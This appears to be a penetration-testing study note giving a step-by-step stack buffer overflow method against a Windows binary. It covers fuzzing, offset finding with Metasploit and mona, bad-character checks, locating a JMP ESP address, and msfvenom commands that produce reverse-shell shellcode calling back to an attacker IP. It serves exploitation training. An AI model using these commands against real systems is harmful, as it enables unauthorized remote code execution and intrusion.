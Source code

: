 ### Buffer Overflows


#### The Process:
- 1 Spiking
- 2 Fuzzing
- 3 Finding the Offset
- 4 Overwriting the EIP
- 5 Finding Bad Characters [ref: https://ostermiller.org/calc/asciism.html]
- 6 Finding the Right Module
- 7 Generating Shellcode
- 8 Root Access

-----

# BOF

- 1. Connect find commands
```bash
nc -nv $IP $PORT
```

- 2. [Spike](/Methodology/3_Exploitation/1_Buffer_Overflows/1_STATS.spike)
check if vulnerable

- 3. Fuzzing


**1. Check buffer length to trigger overflow** 

**2. Cofirm overflow length, append "A" * length**  

**3. Generate Offset to check EIP, ESP location**  
  /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length>

	Record value on EIP, select ESP and click "Follow in Dump"  
	/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <value> -l <length>  

	Use !mona to find the offset after the overflow  
	!mona findmsp  

**4. Confirm EIP by adding "B" * 4 after the number of offset. Also, add a number of "C" to track the number of characters that can be added after EIP to confirm length of shellcode**

**5. Check bad characters after EIP. common bad characters are 0x00, 0x0A. Follow dump in ESP to check are there something missing after that.**
Add code:

	badchar = [0x00]
	for ch in range (0x00 , 0xFF+1):
		if ch not in badchar:
			<payload> += chr(ch)

**6. Find JMP ESP address in the system.**
```
msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
	JMP ESP = FFE4
```
	!mona jmp -r esp -cpb "\x00\x0A" << bad character

	!mona modules
	!mona find -s "\xff\xe4" -m brainpan.exe

	check the value of the address by naviate to it.
	Set breakpoint
	Change "B" in EIP to the address of JMP ESP << little edian (reverse order)
	
	e.g. 0x311712f3 >> "\xf3\x12\x17\x31"

	Run again to check is the breakpoint triggered

**7. Add shellcode**
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.166 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
	Add a few \x90 before shellcode to avoid shellcode being modify

	msfvenom -p windows/shell_reverse_tcp LHOST=<IP>LPORT=<PORT> EXITFUNC=thread -f <Code Format> -a x86 -platform windows -b "\x00"
	msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP>LPORT=<PORT> EXITFUNC=thread -f <Code Format> -b "\x00"

**Bonus: Running out of shell code space?**
Use the front of payload instead
1. Is there any register points to the front of our payload? EAX, EDX?
2. Check JMP register address
	/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

	JMP EAX/EBX/ECX/EDX

3. Append the address as shell code.
4. Add payload to the front


